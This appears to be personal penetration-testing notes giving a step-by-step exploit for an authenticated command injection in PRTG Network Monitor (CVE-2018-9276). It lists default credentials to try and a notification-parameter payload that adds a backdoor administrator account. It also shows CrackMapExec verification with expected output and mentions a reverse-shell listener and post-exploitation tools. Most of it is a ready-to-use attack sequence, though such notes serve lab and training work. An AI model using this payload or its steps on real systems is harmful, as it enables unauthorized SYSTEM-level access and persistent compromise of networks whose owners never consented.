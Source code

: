 ## PRTG Network Monitor – Authenticated Command Injection (CVE-2018-9276)
### Overview

- Affects versions < 18.2.39    
- Command injection via notification parameter passed directly to a PowerShell script
- Exploitation leads to remote command execution as SYSTEM
- Requires authenticated access (default/weak creds often work)
### Steps to Exploit

#### 1. Login to PRTG Web Interface

URL:

```
http://<target>:8080/
```

Try:

- `prtgadmin:prtgadmin`    
- `prtgadmin:Password123`
#### 2. Navigate to Notifications

- `Setup > Account Settings > Notifications`  
    URL:    

```
http://<target>:8080/myaccount.htm?tabid=2
```
#### 3. Create New Notification

Go to:

```
http://<target>:8080/editnotification.htm?id=new&tabid=1
```

- Name: `pwn`    
- Tick: Execute Program
- Program File: `Demo exe notification - outfile.ps1`    
- Parameter (Command Injection):

```powershell
test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add
```

This payload:

- Creates user `prtgadm1` with password `Pwn3d_by_PRTG!`    
- Adds user to local `Administrators` group
#### 4. Save Notification

You’ll be redirected back to:

```
http://<target>:8080/myaccount.htm?tabid=2
```

You should now see `pwn` listed.
#### 5. Trigger Execution (Manually or via Schedule)

- Click Test    
- You'll see: `EXE notification is queued up`
- Execution is blind — no feedback in web UI
#### 6. Verify Exploitation

Use CrackMapExec to confirm:

```bash
sudo crackmapexec smb <target_ip> -u prtgadm1 -p Pwn3d_by_PRTG!
```

Expected output:

```
[+] APP03\prtgadm1:Pwn3d_by_PRTG! (Pwn3d!)
```
### Alternative Payloads

- Persistence: Schedule the notification to run daily    
- Reverse Shell (instead of net user): Inject PowerShell reverse shell one-liner in place of `net user` command
- Listener (before triggering):

```bash
sudo nc -lnvp 443
```
### Post-Exploitation Access

- WinRM: `evil-winrm`    
- RDP: If enabled
- SMB Exec Tools: `wmiexec.py`, `psexec.py`
### Summary Table

| Step             | Action                       |
| ---------------- | ---------------------------- |
| Auth Required    | Yes                          |
| Affected Param   | Notification → Parameters    |
| Exploit Method   | PowerShell command injection |
| Priv Esc         | SYSTEM                       |
| Default Web Port | 8080                         |
| Verification     | CrackMapExec / shell access  |
# Tags
> #Exploitation #Application-Exploitation #PRTG-Network-Monitor 